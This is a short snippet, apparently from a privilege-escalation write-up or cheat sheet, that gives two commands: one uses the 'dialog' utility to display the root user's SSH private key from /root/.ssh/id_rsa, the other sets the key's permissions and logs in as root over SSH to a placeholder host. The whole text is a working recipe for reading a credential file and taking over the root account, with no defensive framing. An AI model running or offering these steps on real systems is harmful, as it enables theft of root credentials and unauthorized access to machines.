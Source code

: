 1. Get root private key.

```bash
dialog --textbox /root/.ssh/id_rsa 0 0
```

2. Login as root.

```bash
chmod 600 id_rsa
ssh -i id_rsa root@whatever.this.is
```

